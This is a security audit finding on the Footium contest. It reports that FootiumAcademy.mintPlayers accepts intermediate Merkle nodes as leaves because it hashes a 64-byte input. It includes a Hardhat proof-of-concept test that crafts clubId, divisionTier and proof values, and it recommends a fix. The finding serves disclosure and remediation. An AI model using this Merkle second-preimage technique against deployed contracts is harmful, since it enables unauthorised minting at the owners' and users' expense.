 qpzm

high

# `FootiumAcademy.mintPlayers` may misinterpret an intermediate node as a leaf.

## Summary
`FootiumAcademy.mintPlayers` may misinterpret an intermediate node as a leaf.

## Vulnerability Detail
`keccak256(abi.encodePacked(clubId, divisionTier))` takes two 32-byte input and returns 32 bytes.
This is equal to the process of [MerkleProof._hashPair](https://github.com/OpenZeppelin/openzeppelin-contracts/blob/8b2ed0f5706fe1a7ab6ade84b27bf875dc611fda/contracts/utils/cryptography/MerkleProof.sol#L211).
If a malicious user use a pair of intermediate nodes as `clubId` and `divisionTier`, the merkle proof verification will pass.
https://github.com/sherlock-audit/2023-04-footium/blob/main/footium-eth-shareable/contracts/FootiumAcademy.sol#L239
```sol
MerkleProofUpgradeable.verify(
    divisionProof,
    _clubDivsMerkleRoot,
    keccak256(abi.encodePacked(clubId, divisionTier))
)
```
The vulnerability of 64-byte input is explained in detail in the following issue.
https://github.com/OpenZeppelin/openzeppelin-contracts/issues/3091

## Impact
If there is a FootiumClub NFT with id equals to one of the intermediate node of the merkle tree, the owner will be able
to mint players, even if he/she is not in the merkle leaves.

## Code Snippet
I changed this test as below and it passed.
https://github.com/sherlock-audit/2023-04-footium/blob/main/footium-eth-shareable/test/FootiumAcademy.test.ts#L247
```solidity
        it("can mint players", async () => {
            // const divisionTier = 4;
            const generationIds = [0, 1, 2, 3, 4, 5, 6];
            const ethAmount = ethers.BigNumber.from(divisionFees[0]).mul(
                generationIds.length
            );

            const distributorBalanceBefore = await ethers.provider.getBalance(
                distributor.address
            );

            // 1. Assumption: One of intermediate nodes is equal to an existing clubId
            const clubId = hashClubDivisionInputs([2,2]);

            // Set FootiumClub.owners(clubId) = addr1.address
            const value = ethers.utils.hexlify(ethers.utils.zeroPad(addr1.address, 32))
            const ownersSlot = 103;
            const ownersValueSlot = calcStroageSlot(clubId, ownersSlot);
            await ethers.provider.send("hardhat_setStorageAt", [clubs.address, ownersValueSlot, value])


            // Set FootiumClub.escrow(clubId) = addr1.address
            const clubToEscrowSlot = 352;
            const escrowSlot = calcStroageSlot(clubId, clubToEscrowSlot);
            await ethers.provider.send("hardhat_setStorageAt", [clubs.address, escrowSlot, value])

            // 2. Exploit
            // Set `divisionTier` to the pair node of `clubId`
            const divisionTier = hashClubDivisionInputs([1, 1]);
            const proof = [
                Buffer.from('56176d99dd782b5af4a770f31b01589fdcf57380ec72f9ddf7d69d14eeb244e9', 'hex'),
                Buffer.from('7925decdce96e418fd327c5582e72db17cdbd59e17de4be4eae814a68cf94e50', 'hex')
            ]

            await expect(academy
                .connect(addr1)
                .mintPlayers(
                    1,
                    clubId,
                    divisionTier,
                    generationIds,
                    proof,
                    {
                        value: ethAmount,
                    }
                )).to.not.reverted;

            const distributorBalanceAfter = await ethers.provider.getBalance(
                distributor.address
            );
            const divisionFee = await academy.divisionToFee(divisionTier);
            const expectedBalance =
                generationIds.length * parseInt(divisionFee.toString());

            expect(
                distributorBalanceAfter.sub(distributorBalanceBefore).toString()
            ).to.equal(expectedBalance.toString());
        });
    });
```

## Tool used

Manual Review

## Recommendation
The input length should not be 64 bytes. For example, if `divisionTier` is not that many, we can cast it to smaller bytes.
```sol
MerkleProofUpgradeable.verify(
    divisionProof,
    _clubDivsMerkleRoot,
    keccak256(abi.encodePacked(clubId, uint248(divisionTier)))
)
```